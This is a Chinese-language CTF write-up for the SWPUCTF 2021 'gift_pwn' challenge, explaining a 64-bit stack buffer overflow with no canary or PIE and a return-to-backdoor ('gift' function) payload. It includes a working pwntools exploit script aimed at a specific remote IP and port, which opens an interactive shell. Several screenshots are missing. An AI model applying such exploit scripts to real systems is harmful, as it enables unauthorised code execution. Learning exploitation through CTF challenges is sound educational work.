




# [SWPUCTF 2021 新生赛]gift_pwn Writeup

---

## 题目分析

### 1. 下载并检查文件

```bash
$ file gift_pwn
gift_pwn: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=..., not stripped

$ checksec gift_pwn
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found          ← 关键：无栈保护
    NX:       NX enabled               ← 有NX保护
    PIE:      No PIE (0x400000)        ← 关键：无地址随机化
```

**关键发现**：无 Canary、无 PIE，存在栈溢出漏洞可直接利用。

### 2. 反编译分析

使用 IDA 打开，发现 `main` 和 'vuln' 函数：




发现存在栈溢出漏洞

### 3. 发现后门函数

在 IDA 中发现 `gift` 函数：



---

## 漏洞利用原理

### 栈结构布局

```
高地址
+------------------+
|    返回地址      |  ← rip (8 bytes)    [目标：0x4005B6]
+------------------+
|   保存的 rbp     |  ← rbp (8 bytes)    [需覆盖]
+------------------+
|                  |
|     buf[16]      |  ← 缓冲区 (16 bytes) [需填满]
|                  |
+------------------+
低地址
```

### 溢出计算

| 层级 | 大小 | 累计偏移 |
|:---|:---|:---|
| buf 缓冲区 | 16 字节 | 16 |
| 保存的 rbp | 8 字节 | **24** ← 到达返回地址 |
| 返回地址 | 8 字节 | 32 |

**Payload 结构**：
```
payload = b'a'*16 + b'b'*8 + p64(0x4005B6)
          └─buf──┘ └─rbp─┘ └────rip────┘
```

---

## Exploit 脚本

```python
from pwn import *
pro=remote('175.178.183.208',21305)
gift=0x4005B6
payload = b'a'*16+b'b'*8+p64(gift)
pro.sendline(payload)
pro.interactive()
```

---

## 执行过程



---
